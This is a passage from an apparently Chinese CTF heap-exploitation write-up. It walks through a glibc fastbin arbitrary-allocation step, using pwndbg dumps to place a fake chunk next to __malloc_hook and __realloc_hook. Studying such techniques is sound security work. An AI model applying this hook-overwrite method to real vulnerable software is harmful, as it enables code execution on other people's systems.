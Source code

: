 现在我们申请到了index2的chunk，和之前一样仍然和index5内存重叠；并且要注意这里使用**Arbitrary Alloc的条件：**

```python
pwndbg> x/16gx 0x7ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f 
    														#fake_chunk
0x7ffff7dd1afd:	0xfff7a92ea0000000	0xfff7a92a7000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b4d <main_arena+45>:	0xfff7dd1aed000000	0x000000000000007f
0x7ffff7dd1b5d <main_arena+61>:	0x0000000000000000	0x0000000000000000
```

再次申请就可以得到0x7ffff7dd1aed这片内存区域了：

```python
create(0x60) #6 fake_chunk
```

```python
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0xfff7a92ea0000000 #由于Arbitrary Alloc导致的fastbin链混乱
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> 
```

指的注意到是__realloc_hook和__malloc_hook的地址：

```python
pwndbg> x/16gx 0x7ffff7dd1ae0
0x7ffff7dd1ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260	0x0000000000000000
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92ea0	0x00007ffff7a92a70
    													#__realloc_hook
        												#指向realloc_hook_ini
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
    							#__malloc_hook
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0xfff7a92ea0000000	0x0000000000000000
pwndbg> 
```

